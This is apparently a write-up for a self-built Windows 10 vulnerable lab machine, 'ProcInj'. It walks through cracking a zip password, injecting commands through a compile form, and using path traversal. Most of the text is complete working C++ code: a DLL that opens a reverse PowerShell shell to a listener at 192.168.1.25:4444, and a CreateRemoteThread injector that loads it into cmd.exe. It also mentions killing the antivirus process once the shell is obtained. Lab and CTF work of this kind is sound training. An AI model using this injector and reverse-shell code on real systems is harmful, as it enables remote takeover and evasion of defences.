

I created a Windows 10 Vuln machine
July 27 2024
I created a windows 10 machine called ProcInj, focusing on process injection and path traversal technique to get reverse shell. This writeup serves as a guide to solve the machine. Instruction to set up the lab can be seen in https://github.com/mdphuc/myfile/tree/main/VM/ProcInj/README.md
ProcInj hosts a website as below

After messing around with the website, we notice that there's a form commented on the website, uncomment it and submit the form we have a zip file downloaded to our machine

Try open it, we notice it's password protected

Use JohnTheRipper to crack the password with password list: https://github.com/danielmiessler/SecLists/blob/master/Passwords/Common-Credentials/common-passwords-win.txt


Unzip the file and open information.txt we have

Messing around with the website, we notice it is used to compile a .cpp file into exe or dll. However, it forbids us to compile .cpp file with windows api into exe. Information.txt tells us that only C://ProgramData/ProcInj/System/debug.exe can run. Further test also shows that we can submit customed command with the form (We can craft it like hello && echo "1" > hello.txt then a file named hello.txt with 1 as its content will be created)
As what Information.txt shows, our plan now is to create a dll file with windows api and run it by inject it into another process
Our testdll.dll is crafted as followed
#include <iostream>
#include <windows.h>
#include <winsock2.h>
#include <stdio.h>
#pragma comment(lib, "w2_32")
using namespace std;
#ifdef __cplusplus
extern "C" {
#endif
__declspec(dllexport) int __cdecl mbox(LPCWSTR msg){
WSADATA wsaData;
SOCKET wSock;
struct sockaddr_in hax;
STARTUPINFO sui;
PROCESS_INFORMATION pi;
char *ip = "192.168.1.25";
short port = 4444;
// init socket lib
WSAStartup(MAKEWORD(2, 2), &wsaData);
// create socket
wSock = WSASocket(AF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, (unsigned int)NULL, (unsigned int)NULL);
hax.sin_family = AF_INET;
hax.sin_port = htons(port);
hax.sin_addr.s_addr = inet_addr(ip);
// connect to remote host
WSAConnect(wSock, (SOCKADDR*)&hax, sizeof(hax), NULL, NULL, NULL, NULL);
memset(&sui, 0, sizeof(sui));
sui.cb = sizeof(sui);
sui.dwFlags = STARTF_USESTDHANDLES;
sui.hStdInput = sui.hStdOutput = sui.hStdError = (HANDLE) wSock;
// start cmd.exe with redirected streams
CreateProcess(NULL, "powershell.exe", NULL, NULL, TRUE, 0, NULL, NULL, &sui, &pi);
exit(0);
MessageBox(NULL, TEXT("HELLO WORLD"), TEXT("TEST"), MB_OK);
return 1;
}
#ifdef __cplusplus
}
#endif
BOOL WINAPI DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpReserved){
switch(fdwReason){
case DLL_PROCESS_ATTACH:
mbox(L"Run");
break;
case DLL_THREAD_ATTACH:
break;
case DLL_THREAD_DETACH:
break;
case DLL_PROCESS_DETACH:
break;
}
return TRUE;
}
Our debug.exe for injection is crafted as followed
#include <windows.h>
#include <tlhelp32.h>
#include <iostream>
#include <psapi.h>
using namespace std;
BOOL CompareCHAR(CHAR *char1, CHAR *char2){
int i = 0;
while(char1[i] != '\0' && char2[i] != '\0'){
if (char1[i] != char2[i]){
return false;
}
i ++;
}
if ((char1[i] == '\0' && char2[i] != '\0') || (char1[i] != '\0' && char2[i] == '\0')){
return false;
}
return true;
}
DWORD GetProcessID(CHAR *process_name){
HANDLE process_snap;
PROCESSENTRY32 pe32;
HANDLE handle_process;
process_snap = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
pe32.dwSize = sizeof(PROCESSENTRY32);
Process32First(process_snap, &pe32);
do{
if (CompareCHAR((CHAR*)pe32.szExeFile, process_name)){
return pe32.th32ProcessID;
}
// cout << pe32.szExeFile << " " << process_name << endl;
}while(Process32Next(process_snap, &pe32));
return 0;
}
BOOL Inject(TCHAR *dll_to_inject, DWORD process_id_inject_to){
TCHAR dll_path[MAX_PATH];
GetFullPathName(dll_to_inject, MAX_PATH, dll_path, NULL);
HANDLE hproc = OpenProcess(PROCESS_ALL_ACCESS, FALSE, process_id_inject_to);
LPVOID dllalloc = VirtualAllocEx(hproc, NULL, strlen((CHAR*)dll_path), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
WriteProcessMemory(hproc, dllalloc, dll_path, strlen((CHAR*)dll_path), NULL);
FARPROC loadlibraryA_addr = GetProcAddress(GetModuleHandle(TEXT("kernel32.dll")), "LoadLibraryA");
HANDLE rthread = CreateRemoteThread(hproc, NULL, 0, (LPTHREAD_START_ROUTINE)loadlibraryA_addr, dllalloc, 0, NULL);
WaitForSingleObject(rthread, INFINITE);
return true;
}
int main(){
TCHAR dll_to_inject[MAX_PATH] = TEXT("C://ProgramData/ProcInj/Web/compiled/testdll.dll");
CHAR process_to_get_id[] = "cmd.exe";
DWORD pid = GetProcessID(process_to_get_id);
if (pid == 0){
cout << "Cannot find id of target process";
return 1;
}
cout << pid << endl;
cout << Inject(dll_to_inject, pid);
}
This is your netcat server to receive reverse shell (change it accordingly to your own)
char *ip = "192.168.1.25"
short port = 4444
debug.exe is used to get cmd.exe's process id, and injection testdll.dll into that process id. Once CreateRemoteThread and WaitForSingleObject are called, function mbox in testdll.dll will run
Information.txt tells us that debug.txt leaves under C://ProgramData/ProcInj/System, and website reveals ./Web/compiled. We guess that website is running under C://ProgramData/ProcInj/Web and sure file after being compiled will be stored at ./Web/compiled, so we may probably use ../.. in our payload
We will initiate the process with these following payload respectively
testdll.cpp -shared -lws2_32 -o testdll.dlldebug.cpp -o ../../System/debug.exehello && powershell C://ProgramData/ProcInj/System/debug.exe
We got reverse shell in the end
We also notice that we cannot use tasklist or tskill or stop-process to stop av.exe; however, once we got the shell, it's ok to do that and get full access of the shell